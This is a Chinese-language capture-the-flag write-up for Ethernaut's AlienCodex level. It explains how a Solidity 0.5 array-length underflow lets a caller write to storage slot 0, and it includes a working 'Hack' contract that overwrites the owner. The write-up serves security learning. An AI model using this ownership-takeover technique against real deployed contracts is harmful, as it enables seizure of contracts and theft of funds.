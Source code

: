 # Ethernaut 19-AlienCodex

## 本关目标

- 成为合约的 owner

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  // 它继承了Ownable，所以隐式这个合约的slot0存放了owner
  bool public contact;
  bytes32[] public codex;

  // 保证contract为true
  modifier contacted() {
    assert(contact);
    _;
  }

  // 设置contract为true
  function makeContact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  // codex.length--, solidity版本是0.5.0没有溢出保护，所以，如果0-1则长度为2^256-1
  function retract() contacted public {
    codex.length--;
  }

  // 设置codex数组指定索引值
  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

## 解决方案

1. 该合约使用的 solidity 版本没有溢出保护，如果直接调用 retract()，则 codex 的数组长度会被置成 2^256 -1
2. AlienCodex 合约的 storage 分布

- owner-->slot0
- contract --> slot0
- 动态数组 codex 的长度 --> slot1
- codex 内容存储起始位置：slot(uint256(keccak256(abi.encode(1))));
- 但是 codex 的长度为 2^256 -1，而 storage 总槽数为 2^256，因此还有一个 codex 会覆盖 slot0

3. 只需要将 codex 会覆盖 slot0 的索引位置赋值成 msg.sender 即可完成 owner 覆盖

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IAlienCodex{
    function makeContact() external;
    function retract() external;
    function revise(uint i, bytes32 _content) external;
    function owner() external view returns(address);
}

contract Hack {
    function hack(IAlienCodex target) external {
        // contract为true,调用retract需要
        target.makeContact();
        target.retract();  // codex.length = 2^256 -1

        uint256 codexFirstSlot = uint256(keccak256(abi.encode(1)));
        uint index;
        unchecked{
            index = 0 - codexFirstSlot; // slot为0对应的数组索引
        }

        // 修改该索引值为msg.sender
        target.revise(index, bytes32(uint256(uint160(msg.sender))));

    }
}
```
